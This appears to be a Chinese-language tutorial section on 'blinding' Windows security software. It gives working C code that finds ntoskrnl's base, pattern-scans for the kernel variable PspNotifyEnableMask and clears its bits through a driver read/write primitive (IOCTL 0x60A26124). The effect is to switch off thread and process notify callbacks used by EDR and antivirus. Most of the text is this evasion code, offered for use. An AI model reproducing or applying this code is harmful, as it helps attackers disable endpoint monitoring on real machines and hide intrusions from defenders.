

## 致盲

那么现在只需要找到PspNotifyEnableMask 把对应的位置清了就行

还是通过特征码

以下代码测试环境为win10 1903

首先要获取ntoskernl的模块地址 可以通过NtQuerySystemInformation实现

```
typedef enum _SYSTEM_INFORMATION_CLASS
{
    SystemBasicInformation, // q: SYSTEM_BASIC_INFORMATION
    SystemProcessorInformation, // q: SYSTEM_PROCESSOR_INFORMATION
    SystemPerformanceInformation, // q: SYSTEM_PERFORMANCE_INFORMATION
    SystemTimeOfDayInformation, // q: SYSTEM_TIMEOFDAY_INFORMATION
    SystemPathInformation, // not implemented
    SystemProcessInformation, // q: SYSTEM_PROCESS_INFORMATION
    SystemCallCountInformation, // q: SYSTEM_CALL_COUNT_INFORMATION
    SystemDeviceInformation, // q: SYSTEM_DEVICE_INFORMATION
    SystemProcessorPerformanceInformation, // q: SYSTEM_PROCESSOR_PERFORMANCE_INFORMATION (EX in: USHORT ProcessorGroup)
    SystemFlagsInformation, // q: SYSTEM_FLAGS_INFORMATION
    SystemCallTimeInformation, // not implemented // SYSTEM_CALL_TIME_INFORMATION // 10
    SystemModuleInformation, // q: RTL_PROCESS_MODULES
}SYSTEM_INFORMATION_CLASS;
typedef struct _RTL_PROCESS_MODULE_INFORMATION
{
    PVOID Section;
    PVOID MappedBase;
    PVOID ImageBase;
    ULONG ImageSize;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    UCHAR FullPathName[256];
} RTL_PROCESS_MODULE_INFORMATION, * PRTL_PROCESS_MODULE_INFORMATION;
typedef struct _RTL_PROCESS_MODULES
{
    ULONG NumberOfModules;
    _Field_size_(NumberOfModules) RTL_PROCESS_MODULE_INFORMATION Modules[1];
} RTL_PROCESS_MODULES, * PRTL_PROCESS_MODULES;
typedef NTSTATUS (NTAPI *pNtQuerySystemInformation)(
    _In_ SYSTEM_INFORMATION_CLASS SystemInformationClass,
    _Out_writes_bytes_opt_(SystemInformationLength) PVOID SystemInformation,
    _In_ ULONG SystemInformationLength,
    _Out_opt_ PULONG ReturnLength
);
```

```
PVOID getNtosKrnlBase() {
    HMODULE ntdll = LoadLibrary(L"ntdll.dll");
    pNtQuerySystemInformation NtQuerySystemInformation = (pNtQuerySystemInformation)GetProcAddress(ntdll, "NtQuerySystemInformation");        
    
    RTL_PROCESS_MODULES info = { 0 };
    NtQuerySystemInformation(SystemModuleInformation, &info,sizeof(RTL_PROCESS_MODULES), NULL);

    return info.Modules->ImageBase;
}
PVOID GetProcAddressFromNtosKrnl(LPCSTR funcName) {
    static ULONG_PTR moduleBase = NULL;
    ULONG_PTR offset = ((ULONG_PTR)GetProcAddress(LoadLibrary(L"ntoskrnl.exe"), funcName) - (ULONG_PTR)LoadLibrary(L"ntoskrnl.exe"));
    
    if (!moduleBase) moduleBase = (ULONG_PTR)getNtosKrnlBase();
    return (PVOID)(moduleBase + offset);
}
```

ntoskernl永远在第一个 直接返回就行





这就找到了 那么接着就和之前写驱动一样找特征就行了

内存的读写通过0x60A26124实现

拿PspNotifyEnableMask

```
ULONG64 GetPspNotifyEnableMask() {
    ULONG_PTR PspNotifyEnableMask = NULL;
    PUCHAR PoRegisterCoalescingCallback = (PUCHAR)GetProcAddressFromNtosKrnl("PoRegisterCoalescingCallback");
    PUCHAR tem = (PUCHAR)malloc(0x500);
    memset(tem, 0, 0x500);
    SIZE_T numOfWrittenBytes;

    // HANDLE hProcess = getHandle(GetCurrentProcessId());
    NTSTATUS status = copyMem(GetCurrentProcess(), PoRegisterCoalescingCallback, tem, 0x500, &numOfWrittenBytes);

    if (status >= 0) {
        tem += 0x100;
        for (int i = 0; i <= 0xfff; i++) {
            if (tem[i] == 0x8b && tem[i + 1] == 0x05 && tem[i + 6] == 0xA8 && tem[i + 7] == 0x04) {
                LONG offset = *(PLONG)(tem + i + 2);

                PspNotifyEnableMask = (ULONG64)(tem + i + 6 + offset);
                return PspNotifyEnableMask;
            }
        }
    }

    return NULL;
}
```






然后置位

```
void SetPspNotifyEnableMask(int bit, BOOLEAN isEnable) {
    static ULONG_PTR PspNotifyEnableMask = NULL;
    if (!PspNotifyEnableMask) {
        PspNotifyEnableMask = GetPspNotifyEnableMask();
    }// R0 addr

    if (PspNotifyEnableMask) {
        PULONG val = (PULONG)malloc(sizeof(ULONG));
        memset(val, 0, sizeof(ULONG));
        SIZE_T numOfWrittenBytes = 0;

        copyMem(GetCurrentProcess(), (PVOID)PspNotifyEnableMask, val, sizeof(ULONG),&numOfWrittenBytes);
        
        if (isEnable) {
            *val = (*val | (1 << bit));
            copyMem(GetCurrentProcess(), val, (PVOID)PspNotifyEnableMask, sizeof(ULONG), &numOfWrittenBytes);
        }
        else {
            *val = (*val & (~(1 << bit)));
            copyMem(GetCurrentProcess(), val, (PVOID)PspNotifyEnableMask, sizeof(ULONG), &numOfWrittenBytes);
        }

    }

}
```

这里以线程回调举例 清除第三四位


运行后




